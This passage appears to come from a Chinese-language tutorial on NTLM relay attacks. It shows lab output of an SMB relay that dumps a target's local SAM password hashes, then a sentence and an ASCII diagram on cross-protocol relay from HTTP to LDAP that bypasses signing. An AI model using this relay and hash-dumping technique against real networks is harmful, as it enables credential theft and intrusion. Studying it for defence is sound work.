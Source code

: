 ```powershell
[*] Setting up SMB Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-2: Connection from CONTOSO/ANAKIN@192.168.100.7 controlled, attacking target smb://192.168.100.10
[*] Authenticating against smb://192.168.100.10 as CONTOSO/ANAKIN SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb471eae0e93128b9c8d5780c19ac9f1d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6535b87abdb112a8fc3bf92528ac01f6:::
user:1001:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
srvuser:1005:aad3b435b51404eeaad3b435b51404ee:38db3f2d2842051c8b7c01d56da283dd:::
[*] Done dumping SAM hashes for host: 192.168.100.10
[*] Stopping service RemoteRegistry
```

另一个可以使用NTLM的协议是HTTP，但默认情况下不使用它。因此HTTP可用于LDAP或SMB的跨协议中继攻击。

```
###Cross-protocol NTLM Relay from HTTP to LDAP.
  client <-----HTTP----> attacker <----LDAP----> server
      |                       |                      |
      |                       |                 -----|--.
      |     NEGOTIATE SIGN=0  |  NEGOTIATE SIGN=0    |  |
      | --------------------> | -------------------> |  |
      |                       |                      |  |
      |     CHALLENGE SIGN=1  |  CHALLENGE SIGN=1    |  |> NTLM Relay
      | <-------------------- | <------------------- |  |
      |                       |                      |  | 
      |  AUTHENTICATE SIGN=0  | AUTHENTICATE SIGN=0  |  |
      | --------------------> | -------------------> | -|---> MIC OK!! 
      |                       |                 -----|--'
      |                       |         ||           |
      |                       |         vv           |
      |                       |    client SIGN = 0   |
      |                       |    server SIGN = 1   |
      |                       |         ||           |
      |                       |         vv           |
      |                       | Signing NOT required |
      |                       |  Successful Attack!! |
      |                       |                      |
      |                       |    application       |
      |                       |     messages         |
      |                       | -------------------> |
      |                       |                      |
      |                       | <------------------- |
      |                       |                      |
      |                       | -------------------> |
      |                       |                      |
```
